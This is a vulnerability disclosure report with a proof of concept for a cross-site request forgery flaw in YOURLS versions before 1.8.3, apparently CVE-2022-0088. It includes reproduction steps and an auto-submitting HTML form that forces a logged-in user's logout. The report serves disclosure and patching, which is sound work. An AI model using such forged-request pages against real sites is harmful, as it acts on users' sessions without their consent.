 # Vulnerability Type

Cross-Site Request Forgery

# Description

Cross-Site Request Forgery (CSRF) in GitHub repository yourls/yourls prior to 1.8.3.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/yourls/yourls/
 - Version: 1.8.2
 - Tested on: Windows 10

 ## Exploit Description

A CSRF vulnerability in yourls allows an attacker to force a user to log out by triggering an forged logout request.

 ## Steps to Reproduce

  1. Save the following code as `poc.html`.
   2. Log in yourls, and open the file in the same browser.
   3. Observe the result.
   4. Begin:

![Image](assets/CVE-2022-0088-1.png)

5. After:

![Image](assets/CVE-2022-0088-2.png)

 ## Proof Of Concept
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF PoC</title>
</head>
<body>
    <h1>CSRF Proof of Concept</h1>
    <form action="http://yourls/admin/index.php" method="GET">
        <input type="hidden" name="action" value="logout">
        <input type="submit" value="Submit CSRF Request">
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>

This HTML page, when visited by an authenticated user of the vulnerable application, will automatically submit a request to log the user out without their consent, demonstrating the CSRF vulnerability.
```

